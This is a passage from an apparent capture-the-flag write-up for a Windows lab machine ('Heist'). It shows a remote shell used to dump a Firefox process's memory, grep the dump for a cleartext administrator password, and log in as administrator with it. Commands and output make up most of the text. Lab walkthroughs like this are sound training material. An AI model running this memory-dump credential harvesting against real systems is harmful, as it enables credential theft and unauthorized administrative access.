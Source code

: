 so we go for `procdump.exe` and use `strings.exe` to be able to read the contents of the file and use `grep` or `findstr`

```
*Evil-WinRM* PS C:\Users\Chase\Documents> ./procdump64.exe -ma 6644 -accepteula

ProcDump v10.0 - Sysinternals process dump utility
Copyright (C) 2009-2020 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[23:47:37] Dump 1 initiated: C:\Users\Chase\Documents\firefox.exe_201114_234737.dmp
[23:47:37] Dump 1 writing: Estimated dump file size is 374 MB.
[23:47:37] Dump 1 complete: 374 MB written in 0.5 seconds
[23:47:37] Dump count reached.

*Evil-WinRM* PS C:\Users\Chase\Documents> upload strings64.exe
Info: Uploading strings64.exe to C:\Users\Chase\Documents\strings64.exe

Data: 598516 bytes of 598516 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\Users\Chase\Documents> cmd /c "strings64.exe -accepteula firefox.exe_201114_234737.dmp > firefox.exe_201114_234737.dmp.txt"
cmd.exe :
    + CategoryInfo          : NotSpecified: (:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
Strings v2.53 - Search for ANSI and Unicode strings in binary images.
Copyright (C) 1999-2016 Mark Russinovich
Sysinternals - www.sysinternals.com

*Evil-WinRM* PS C:\Users\Chase\Documents>
```

Get the password from either `findstr` or download the file from the step above and use `grep` to find a string ressembling `password, `passowrd=`` etc.

```
$cat firefox.exe_201114_234737.dmp.txt | grep "password="
RG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
```

Use the password we get with `evil-winrm`

`evil-winrm -i heist.htb -u administrator -p '4dD!5}x/re8]FBuZ'`

```
$evil-winrm -i heist.htb -u administrator -p '4dD!5}x/re8]FBuZ'

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
supportdesk\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> ls

    Directory: C:\Users\Administrator\Desktop

Mode                LastWriteTime         Length Name
```